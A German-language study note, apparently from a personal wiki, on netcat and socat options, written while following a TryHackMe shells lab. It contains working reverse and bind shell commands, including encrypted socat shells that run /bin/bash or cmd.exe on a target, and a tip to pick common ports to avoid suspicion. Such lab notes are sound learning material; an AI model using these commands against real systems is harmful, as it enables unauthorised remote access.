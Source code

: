 # netcat & socat
Angelegt Montag 07 November 2022


* Sehr sinnvoll bei der Verwendung von [:Linux:TryHackMe:**Reverse & Bind Shells**](./TryHackMe/Reverse_&_Bind_Shells.md)


netcat
------

### Optionen
``-l`` startet einen *Listener*
``-v`` *verbose*-Ausgabe
``-n`` Auflösen von Host-Namen oder DNS (TODO keine Ahnung, was das genau bedeutet)
``-p PORT`` Angabe des Ports, Ports <1024 benötigen ``sudo``-Rechte

* Für [:Linux:TryHackMe:**Reverse & Bind Shells**](./TryHackMe/Reverse_&_Bind_Shells.md) bieten sich bekannte Ports wie ``53``, ``80``, ``443`` an, um weniger Verdacht zu erregen.

``-e PROGRAMM``, führe ``PROGRAMM`` aus, sobald Verbindung hergestellt wurde
❗️Haben nicht alle Versionen von ``netcat``

* als *Listener* sinnvoll, bspw.
	* *Bind Shell*: ``nc -lvnp PORT -e /bin/bash``
	* *Reverse Shell*: ``nc <MEINE IP> PORT -e /bin/bash``


socat
-----
[Intro to Shells, Task 6 − TryHackMe](https://tryhackme.com/room/introtoshells) (dort findet sich auch etwas zu Windows)

* Für ``socat``*-Reverse & Bind Shells* s. [Reverse & Bind Shells#socat-Reverse & Bind Shell](./TryHackMe/Reverse_&_Bind_Shells.md)
* teilweise ähnlich so [#netcat](#Linux:netcat & socat) aber dann wieder grundlegend verschieden
* Syntax ist schwieriger als bei [#netcat](#Linux:netcat & socat)
* kann man sich als Verbindung zw. zwei Punkten, bspw. hörender Port & Tastatur ([:Linux:**Deskriptoren#stdin**](./Deskriptoren.md)), hörender Port & Programm oder hörender Port & Datei, etc.
* ``-d`` (evtl. auch ``-d -d``) für ausführlichere Ausgabe


### Verschlüsselte Shells

* Verschlüsselte Shells möglich: Einfach ``tcp`` mit ``openssl`` ersetzen und [:Linux:**Zertifikat**](./Zertifikate.md) angeben:


#### Reverse

* Listener (bei mir):

	socat OPENSSL-LISTEN:<PORT>,cert=<ZERTIFIKAT.pem>,verify=0 - # Bindestrich nicht vergessen


* ``verify=0`` Zertifikatsverifizierung wird nicht durchgeführt


* Gegenstück (bei Ziel):

	socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash

#### Bind Shell

* Listener (bei Ziel):

	socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes


* Gegenstück (bei mir):

	socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 - # Bindestrich nicht vergessen

#### Schematischer Ablauf

* links: Angreifer
* rechts: Ziel

![](./netcat_&_socat/pasted_image002.png)










